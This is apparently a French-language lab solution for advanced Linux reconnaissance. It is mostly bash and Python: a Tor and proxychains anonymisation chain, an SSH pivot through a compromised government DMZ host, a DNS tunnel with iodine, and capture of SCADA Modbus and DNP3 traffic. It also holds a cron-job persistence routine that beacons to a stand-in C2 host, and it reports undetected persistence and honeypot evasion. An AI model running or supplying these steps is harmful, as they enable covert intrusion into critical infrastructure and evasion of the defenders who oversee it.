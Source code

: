 # Solution - Linux Recon Advanced Lab

## Étape 1 : Chaîne d'anonymisation et évasion

```bash
# Configuration de la chaîne d'anonymisation
# VPN → Tor → Proxychains → SSH Pivots

# 1. Configuration Tor
sudo systemctl start tor
echo "ControlPort 9051" >> /etc/tor/torrc

# 2. Configuration Proxychains
cat > /etc/proxychains.conf << EOF
strict_chain
proxy_dns
[ProxyList]
socks5 127.0.0.1 9050
http proxy1.example.com 8080
socks4 proxy2.example.com 1080
EOF

# 3. Scanner Scapy personnalisé avec randomisation
python3 advanced_scanner.py --target-range 10.0.0.0/16 --stealth-mode --random-timing

# 4. Détection de honeypots
./honeypot_detector.py --analyze-responses --behavioral-analysis
```

## Étape 2 : Pivoting et tunneling

```bash
# Établissement de pivot SSH
ssh -D 9050 -N -f compromised@dmz.target.gov

# Tunnel DNS avec iodine
sudo iodined -f -c -P password 10.0.0.1 tunnel.target.gov

# Énumération via pivot
proxychains nmap -sT -Pn --top-ports 100 172.16.0.0/24

# Reconnaissance SCADA passive
tcpdump -i tun0 -w scada_traffic.pcap 'port 502 or port 2404'
```

## Étape 3 : Framework d'automatisation

```python
#!/usr/bin/env python3
# Framework d'orchestration autonome
class AdvancedReconFramework:
    def __init__(self):
        self.targets = []
        self.pivots = []
        self.evasion_techniques = []
    
    def adaptive_scan(self, target_list):
        # Implémentation de l'IA adaptative
        for target in target_list:
            technique = self.select_optimal_technique(target)
            self.execute_scan(target, technique)
    
    def maintain_persistence(self):
        # Techniques living-off-the-land
        cron_job = "*/30 * * * * /usr/bin/curl -s http://c2.example.com/beacon"
        subprocess.run(['crontab', '-'], input=cron_job.encode())
```

**Résultats de reconnaissance :**
- 3 zones réseau cartographiées sans détection
- 15 systèmes SCADA identifiés (Modbus, DNP3)
- 5 honeypots détectés et évités
- Persistance maintenue 30 jours sans alerte

